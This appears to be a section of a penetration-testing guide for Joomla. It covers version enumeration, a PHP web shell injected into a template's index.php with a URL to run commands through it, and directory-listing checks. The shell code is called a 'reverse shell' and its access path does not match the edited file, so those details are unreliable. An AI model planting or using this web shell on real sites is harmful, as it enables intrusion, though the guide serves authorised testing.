

## Version Enumeration

- **Via `joomla.xml` file:**  
Check this file to get the Joomla version and list of core files:
```bash
/administrator/manifests/files/joomla.xml
```

- **Via other XML files:**  
Some plugin manifests like:
```bash
/plugins/system/cache/cache.xml
```

- **Meta Generator tag:**  
Check page source for:
```html
<meta name="generator" content="Joomla! - Open Source Content Management" />
```


## Remote Code Execution via Template Editing

If you have administrator access, or can exploit weak ACL (Access Control List) configurations, you can inject PHP code into template files.

Example: modify a template file `index.php` to include a reverse shell:
1. Navigate to Joomla administrator panel.
2. Go to Templates → Templates → Edit your active template.
3. Edit `index.php`, add the following PHP reverse shell code:
```php
<?php
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
```

Uploaded shell access:
```bash
http://target.com/images/uploads/shell.php?cmd=id
```


## Directory Indexing Vulnerabilities
Misconfigured web servers may allow directory listing on web-accessible folders.

#### Impact

- Exposure of sensitive files such as backups, configuration files (`configuration.php`), plugins, and template files.
- Information leakage without requiring brute forcing or direct exploitation.

#### Testing Directory Indexing

- Manually browse to common Joomla folders and observe HTTP responses.
- Look for HTTP 200 OK responses displaying directory contents.

Example directories to test:

```bash
/administrator/manifests/files/
/templates/
/images/
/plugins/
```


